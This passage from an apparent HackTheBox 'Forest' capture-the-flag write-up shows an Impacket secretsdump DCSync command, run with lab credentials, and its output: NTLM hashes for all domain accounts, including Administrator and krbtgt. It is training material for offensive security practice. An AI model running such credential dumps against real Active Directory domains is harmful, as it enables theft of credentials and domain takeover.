 Impacket makes a script that can do just that, and with the rights to do so, I should be able to run it:

```console
root@discovery:~/htb/forest# python3 /root/tools/impacket/examples/secretsdump.py -just-dc-ntlm HTB/svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:c2a2ed40d87770ab7ba20e2001379742:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
```